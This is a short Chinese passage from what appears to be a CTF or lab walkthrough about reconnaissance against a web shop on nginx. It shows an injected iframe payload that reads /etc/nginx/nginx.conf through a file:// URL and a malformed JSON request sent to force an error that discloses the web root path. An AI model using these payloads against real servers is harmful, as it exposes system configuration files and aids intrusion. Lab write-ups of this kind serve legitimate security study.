 ![image-20230610172653225](/images/:Users:fanhexuan:Libr.png)

除了root还有一个angoose用户。

中间件是nginx的，看一下nginx的配置文件。

```html
<iframe src='file:///etc/nginx/nginx.conf' width='800' height='1050'></iframe>
```

可以找到http的root路径：/var/www/dev

或者直接通过修改data值使后端错误爆出路径地址。

```json	
{"basket":，，，[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

返回如下：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
```